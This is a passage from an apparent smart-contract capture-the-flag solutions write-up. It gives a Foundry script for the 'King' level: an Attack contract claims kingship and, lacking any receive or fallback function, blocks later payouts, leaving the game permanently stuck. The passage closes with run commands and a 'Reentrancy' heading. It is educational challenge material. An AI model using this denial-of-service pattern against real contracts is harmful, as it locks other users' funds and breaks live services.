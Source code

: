 **Level9Solution.s.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "../src/Level9.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract Attack{

    constructor(King _kingInstance) payable {
        address(_kingInstance).call{value:_kingInstance.prize()}("");//calling the receiver function in King contract
    }
    //since there is no fallback or receive function in this contract ,we can successfully denied the money
}

contract Level9Sol is Script{

    King public kingInstance = King(payable(0xb6Db4938daB72C9e2DF8a19eE5846D2692872441));

    function run() external {
    vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
    
    console.log("first King is :",kingInstance._king());
    console.log("first prize is:",kingInstance.prize());
  
    new Attack{value:kingInstance.prize()}(kingInstance);

    console.log("second King is :",kingInstance._king());
    console.log("second prize is:",kingInstance.prize());

    vm.stopBroadcast();

    }

}

```

**To run the script**

```
$ source .env
$ forge script script/Level9Solution.s.sol:Level9Sol --rpc-url $RPC_URL --broadcast
```

## Reentrancy

**Level10.sol**
